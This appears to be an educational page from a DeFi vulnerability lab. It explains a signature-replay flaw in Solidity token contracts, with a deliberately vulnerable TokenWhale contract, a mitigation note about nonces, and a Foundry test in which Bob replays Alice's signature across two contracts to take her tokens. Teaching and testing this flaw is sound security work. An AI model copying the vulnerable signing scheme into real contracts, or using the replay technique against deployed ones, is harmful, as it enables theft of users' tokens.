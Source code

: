 #  Signature replay  
[SignatureReplay.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/SignatureReplay.sol)  
**Name:** Signature Replay Vulnerability

**Description:**  
In this scenario, Alice signs a transaction that allows Bob to transfer tokens from Alice's accountto Bob's account. 

Bob then replays this signature on multiple contracts (in this case, the TokenWhale and SixEyeToken contracts), each time authorizing the transfer of tokens from Alice's account to his. This is possible because the contracts use the same methodology for signing and validating transactions, but they do not share a nonce to prevent replay attacks.

Missing protection against signature replay attacks, Same signature can be used multiple times to execute a function.

**Mitigation:**  
Replay attacks can be prevented by implementing a nonce, a number that is only used once, into the signing and verification process.

**REF**:

https://medium.com/cryptronics/signature-replay-vulnerabilities-in-smart-contracts-3b6f7596df57

https://medium.com/cypher-core/replay-attack-vulnerability-in-ethereum-smart-contracts-introduced-by-transferproxy-124bf3694e25

**TokenWhale** **Contract:**  
```
contract TokenWhale is Test {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;
    mapping(address => uint256) nonces;

    function TokenWhaleDeploy(address _player) public {
        player = _player;
        totalSupply = 2000;
        balanceOf[player] = 2000;
    }

    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;
    }

    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    function transferProxy(
        address _from,
        address _to,
        uint256 _value,
        uint256 _feeUgt,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) public returns (bool) {
        uint256 nonce = nonces[_from];
        emit log_named_uint("nonce", nonce);
        bytes32 h = keccak256(
            abi.encodePacked(_from, _to, _value, _feeUgt, nonce)
        );
        if (_from != ecrecover(h, _v, _r, _s)) revert();

        if (
            balanceOf[_to] + _value < balanceOf[_to] ||
            balanceOf[msg.sender] + _feeUgt < balanceOf[msg.sender]
        ) revert();
        balanceOf[_to] += _value;

        balanceOf[msg.sender] += _feeUgt;

        balanceOf[_from] -= _value + _feeUgt;
        nonces[_from] = nonce + 1;
        return true;
    }
}
```
**How to Test:**

forge test --contracts src/test/**SignatureReplay.sol** -vvvv
```
// A function to demonstrate a replay attack using token contracts.
function testSignatureReplay() public {
    // Emit the current balance of the contract.
    emit log_named_uint(
        "Balance",
        TokenWhaleContract.balanceOf(address(this))
    );

    // Generate a unique hash from the input data.
    bytes32 hash = keccak256(
        abi.encodePacked(
            address(alice),
            address(bob),
            uint256(499),
            uint256(1),
            uint256(0)
        )
    );

    // Log the hash.
    emit log_named_bytes32("hash", hash);

    // Sign the hash with the private key of the address.
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(1, hash);

    // Log the signature components.
    emit log_named_uint("v", v);
    emit log_named_bytes32("r", r);
    emit log_named_bytes32("s", s);

    // Recover the signer's address from the signature.
    address alice_address = ecrecover(hash, v, r, s);

    // Log the signer's address.
    emit log_named_address("alice_address", alice_address);

    // Notify the possible attack.
    emit log_string(
        "If attacker got the Alice's signature, the attacker can replay this signature on the others contracts with same method."
    );

    // Bob becomes the prankster.
    vm.startPrank(bob);

    // Bob uses Alice's signature to transfer tokens from Alice's account to his account.
    TokenWhaleContract.transferProxy(
        address(alice),
        address(bob),
        499,
        1,
        v,
        r,
        s
    );

    // Log Bob's new balance.
    emit log_named_uint(
        "SET token balance of Bob",
        TokenWhaleContract.balanceOf(address(bob))
    );

    // Log the next step of the attack.
    emit log_string(
        "Try to replay to another contract with same signature"
    );

    // Log Bob's balance in another token before the replay.
    emit log_named_uint(
        "Before the replay, SIX token balance of bob:",
        SixEyeTokenContract.balanceOf(address(bob))
    );

    // Bob uses Alice's signature to transfer tokens in a different contract.
    SixEyeTokenContract.transferProxy(
        address(alice),
        address(bob),
        499,
        1,
        v,
        r,
        s
    );

    // Log Bob's new balance in the second contract.
    emit log_named_uint(
        "After the replay, SIX token balance of bob:",
        SixEyeTokenContract.balanceOf(address(bob))
    );

    // Bob attempts to replay the attack on the same contract, but this fails due to the nonce check.
    SixEyeTokenContract.transferProxy(
        address(alice),
        address(bob),
        499,
        1,
        v,
        r,
        s
    );

    // Log Bob's balance after the second attempt.
    emit log_named_uint(
        "After the second replay, SIX token balance of bob:",
        SixEyeTokenContract.balanceOf(address(bob))
    );
}
```
Red box: signature replayed.
![Alt text](image-19.png)